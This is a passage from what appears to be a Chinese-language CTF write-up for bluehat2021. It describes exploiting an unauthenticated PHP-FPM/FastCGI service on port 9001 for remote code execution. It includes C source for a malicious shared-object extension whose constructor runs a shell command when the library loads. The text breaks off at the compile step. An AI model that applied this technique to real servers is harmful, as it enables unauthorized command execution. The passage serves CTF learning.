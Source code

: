 
发现在9001端口开有FastCGI服务，phpinfo中也表明该项目为FPM/FastCGI，可以通过未授权打FPM rce

![phpinfo](bluehat2021/image-20210503141634940.png)



### 加载恶意so文件

写.so扩展

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("ls / >/var/www/html/a");
}
```

<small>小插曲：这里发现输出到`/var/www/html/1`发现不行，结果名字换成a就可了，离谱</small>

编译下
